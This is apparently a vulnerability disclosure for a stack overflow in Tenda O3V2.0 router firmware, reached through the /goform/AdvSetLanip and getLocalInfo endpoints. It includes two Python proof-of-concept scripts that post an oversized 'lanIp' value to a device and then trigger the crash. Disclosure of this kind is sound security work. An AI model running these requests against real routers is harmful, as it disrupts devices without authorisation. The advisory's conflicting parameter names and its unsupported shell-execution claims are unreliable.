 ## Summary

A stack overflow vulnerability exists in the Tenda O3V2.0 V1.0.0.10(2478) firmware. The `lanIp` POST parameter accepted by `/goform/AdvSetLanip` is written to the configuration key `lan.ip` via `SetValue` without length or content validation. The stored value is later read (via `/goform/getLocalInfo`) and stored on the stack. Since there is no limit on the length of the stored value, it can lead to stack overflow.

## Affected product & versions

- **Vendor:** Tenda
- **Product:** O3V2.0 (firmware)
- **Affected version:** V1.0.0.10(2478)
- **Download:** https://www.tenda.com.cn/download/detail-2832.html

## Vulnerability type

- **Type**:Stack overflow
- **Root cause:** Missing input validation / insufficient sanitization and lack of length checks in `SetValue` and `GetValue` functions that handle `lan.ip`.

## Technical details

- The `AdvSetLanip` endpoint accepts a POST parameter `ip` and calls `SetValue("lan.ip", v13)` without enforcing a maximum length or sanitizing shell metacharacters.
- Condition: For the program to execute this branch, the value of the POST parameter "lanType" must not be set to "Static".

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20251011_100849.png)

- The `getLocalInfo` endpoint reads `lan.ip` via `GetValue("lan.ip", v6)` and passes it into a shell-invoking context (or a system call) without sanitization, making stored payloads executed when the endpoint is processed.
- ![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20251011_101449.png)
- Both `SetValue` and `GetValue` lack proper validation of the value contents and length.

## Proof of Concept

1. **Store a malicious `lan.ip` value**

```python
# poc_set.py
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/AdvSetLanip"
payload = b"a"*1000

data = {"lanIp":payload,"lanType":"A"}
response = requests.post(url, data=data)
print(response.text)
```

2. **Trigger the vulnerable behavior**

```python
# poc_get.py
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/getLocalInfo"
response = requests.post(url)
print(response.text)
```

3. **Attack result**

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20251011_104719.png)